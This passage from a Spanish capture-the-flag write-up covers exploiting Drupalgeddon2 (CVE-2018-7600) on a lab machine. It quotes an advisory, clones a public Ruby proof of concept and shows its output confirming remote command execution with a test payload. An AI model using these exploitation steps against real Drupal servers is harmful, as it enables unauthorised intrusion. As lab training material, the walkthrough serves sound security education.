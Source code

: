 <figure><img src="../../.gitbook/assets/imagen (413).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2018-7600" %}

{% hint style="danger" %}
Drupal anterior a 7.58, 8.x anterior a 8.3.9, 8.4.x anterior a 8.4.6 y 8.5.x anterior a 8.5.1 permite a atacantes remotos ejecutar código arbitrario debido a un problema que afecta a múltiples subsistemas con configuraciones de módulos predeterminadas o comunes.
{% endhint %}

Buscando por Internet, nos encontramos con el siguiente repositorio de GitHub en el cual nos proporcionan un PoC a través de un script realizado en `Ruby`.

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

```bash
❯ git clone https://github.com/dreadlocked/Drupalgeddon2; cd Drupalgeddon2
Clonando en 'Drupalgeddon2'...
remote: Enumerating objects: 257, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 257 (delta 0), reused 0 (delta 0), pack-reused 253 (from 1)
Recibiendo objetos: 100% (257/257), 102.12 KiB | 1.19 MiB/s, listo.
Resolviendo deltas: 100% (88/88), listo.
```

Realizaremos la explotación de la vulnerabilidad para lograr obtener una `shell` en el sistema vulnerable. Comprobamos que finalmente obtenemos acceso a la máquina y podemos ejecutar comandos arbitrarios.

```bash
❯ ruby drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo MYZIHMVA
[+] Result : MYZIHMVA
```